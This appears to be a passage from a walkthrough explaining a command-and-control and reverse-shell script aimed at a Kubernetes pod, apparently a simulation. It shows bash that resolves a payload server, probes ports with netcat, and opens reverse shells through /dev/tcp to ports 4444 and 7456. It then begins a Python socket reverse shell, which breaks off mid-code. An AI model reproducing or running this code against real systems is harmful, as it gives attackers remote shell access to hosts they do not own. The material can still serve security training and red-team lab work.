 this checks for an existing C2 channel before establishing a new one.

```bash
# Improved reverse shell that connects to payload server
log "$CYAN" "Attempting to connect to backdoors..."

# Get payload server IP
PAYLOAD_SERVER="payload-server.default.svc.cluster.local"
PAYLOAD_IP=$(getent hosts $PAYLOAD_SERVER | awk '{ print $1 }')

if [ -z "$PAYLOAD_IP" ]; then
    log "$YELLOW" "Could not resolve $PAYLOAD_SERVER, using DNS name"
    PAYLOAD_IP=$PAYLOAD_SERVER
else
    log "$GREEN" "Resolved $PAYLOAD_SERVER to $PAYLOAD_IP"
fi

# Check if the ports are actually open first
log "$BLUE" "Testing payload server port connectivity..."
for PORT in 4444 7456 8080; do
    nc -z -w 2 $PAYLOAD_IP $PORT 2>/dev/null
    if [ $? -eq 0 ]; then
        log "$GREEN" "Port $PORT is open on $PAYLOAD_IP"
    else
        log "$RED" "Port $PORT is closed on $PAYLOAD_IP"
    fi
done
```

this prepares our C2. it resolves the server hostname to an IP address and tests the connectivity. it uses netcat in test mode (`-z`) and validates all the channels before attempting a connection.

```bash
# Try multiple reverse shell connection methods
log "$BLUE" "Attempting reverse shell to $PAYLOAD_IP:4444..."
# First try with bash - write more detailed connection info for monitoring
(sleep 1; echo "Shell connection from sim-pod $(hostname) at $(date)"; sleep 1) | timeout 5 bash -c "exec 3<>/dev/tcp/$PAYLOAD_IP/4444 && cat >&3 && cat <&3" 2>/dev/null || log "$YELLOW" "Could not connect with bash to backdoor on port 4444"

# Try the other port with bash
log "$BLUE" "Attempting reverse shell to $PAYLOAD_IP:7456..."
(sleep 1; echo "Shell connection from sim-pod $(hostname) at $(date)"; sleep 1) | timeout 5 bash -c "exec 3<>/dev/tcp/$PAYLOAD_IP/7456 && cat >&3 && cat <&3" 2>/dev/null || log "$YELLOW" "Could not connect with bash to backdoor on port 7456"
```

now the script will try to establish a reverse shell using several methods. this is a bash-based attempt. it uses `/dev/tcp` for raw socket connections.

```bash
# Try with Python socket - this has been working reliably
log "$BLUE" "Trying Python socket-based connection..."
(
python3 -c '
import socket
import subprocess
import os
import sys
import time
import platform

host = "'"$PAYLOAD_IP"'"
port = 4444

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```